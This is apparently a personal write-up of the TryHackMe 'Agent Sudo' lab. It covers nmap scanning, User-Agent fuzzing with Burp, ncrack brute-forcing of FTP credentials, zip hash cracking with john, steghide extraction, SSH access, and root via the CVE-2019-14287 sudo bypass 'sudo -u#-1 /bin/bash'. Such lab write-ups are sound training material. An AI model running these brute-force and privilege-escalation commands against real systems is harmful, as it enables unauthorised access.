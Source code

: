 ```yaml
---
title: Agent Sudo - Easy THM
date: 2023-11-11 10:20:51 +/-0800
categories: [writeup, tryhackme]
writeup: :title
permalink: /agentsudo
tags: [thm, writeup, easy, linux, steganographie, web, CVE-2019-14287]     # TAG names should always be lowercase
---
```


- OS: Linux
- Difficulty: Easy
- Author: Talace

# **SCANNING**

**Threader3000 scan:**

`python3 threader3000.py 10.10.49.159`

```python
Port 21 is open
Port 22 is open
Port 80 is open
```

**nmap scan:**

`nmap -p21,22,80 -sV -sC -T4 -Pn -oA 10.10.49.159 10.10.49.159`

```python
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

# **ENUMERATION**

We go on the webserver

`http://10.10.10.10/`

We spawn on a website, with a message talking about **USER-AGENT**

![website](/assets/agentSudo/website.png)


Try changing the USER-AGENT

![USER-AGENT](/assets/agentSudo/userAgent.png)

I got this new message

![AgentR](/assets/agentSudo/agentR.png)


It work, let's use the burp intruder to brute force all pages

![intruder](/assets/agentSudo/bruteForceUserAgent.png)

Found the path /C

![AgentC](/assets/agentSudo/agentC.png)

User chris ? Let's try to brute force is FTP creds

```ncrack -u 'chris' -P /usr/share/wordlists/rockyou.txt ftp://10.10.118.96```

Get the FTP credentials

## FTP ENUMERATION

Retrieve all files and folder:

`wget -m --no-passive ftp://chris:pass@<target>`

Get these files

![zip](/assets/agentSudo/zip.png)

Extract the zip

`binwalk -e cutie.png`

Get a hash possibly, look like base64

`echo 'QXJlYTUx' | base64 -d`

Next, we get a zip, we use zip2john

`zip2john 8702.zip > hash.txt`

decrypt the hash with john

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Next extract the jpg with the pass

`steghide extract -sf cute-alien.jpg`

Found a user and a pass, try to connect via ssh, it work !

# **PRIVESC**

We have the user.txt, let's search for the root

check sudo rights

`sudo -l`

![privesc](/assets/agentSudo/privesc.png)

Found a CVE on sudo version 1.8.27

https://www.exploit-db.com/exploits/47502

## **The exploit:**

sudo -u#-1 /bin/bash

Got root !